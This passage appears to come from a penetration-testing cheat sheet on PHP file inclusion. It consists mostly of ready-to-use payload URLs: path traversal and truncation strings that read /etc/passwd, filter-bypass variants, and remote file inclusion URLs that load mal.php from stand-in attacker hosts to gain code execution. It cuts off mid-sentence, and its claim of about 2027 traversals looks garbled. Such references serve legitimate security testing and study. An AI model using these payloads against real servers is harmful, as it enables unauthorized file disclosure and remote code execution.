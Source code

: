 Copy

```
http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd
```

In these scenarios, the number of traversals needed might be around 2027, but this number can vary based on the server's configuration.

* **Using Dot Segments and Additional Characters**: Traversal sequences (`../`) combined with extra dot segments and characters can be used to navigate the file system, effectively ignoring appended strings by the server.
* **Determining the Required Number of Traversals**: Through trial and error, one can find the precise number of `../` sequences needed to navigate to the root directory and then to `/etc/passwd`, ensuring that any appended strings (like `.php`) are neutralized but the desired path (`/etc/passwd`) remains intact.
* **Starting with a Fake Directory**: It's a common practice to begin the path with a non-existent directory (like `a/`). This technique is used as a precautionary measure or to fulfill the requirements of the server's path parsing logic.

When employing path truncation techniques, it's crucial to understand the server's path parsing behavior and filesystem structure. Each scenario might require a different approach, and testing is often necessary to find the most effective method.

**This vulnerability was corrected in PHP 5.3.**

#### **Filter bypass tricks** <a href="#filter-bypass-tricks" id="filter-bypass-tricks"></a>

Copy

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
http://example.com/index.php?page=PhP://filter
```

## Remote File Inclusion <a href="#remote-file-inclusion" id="remote-file-inclusion"></a>

In php this is disable by default because **`allow_url_include`** is **Off.** It must be **On** for it to work, and in that case you could include a PHP file from your server and get RCE:

Copy

```
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```

If for some reason **`allow_url_include`** is **On**, but PHP is **filtering** access to external webpages, [according to this post](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/), you could use for example the data protocol with base64 to decode a b64 PHP code and egt RCE:
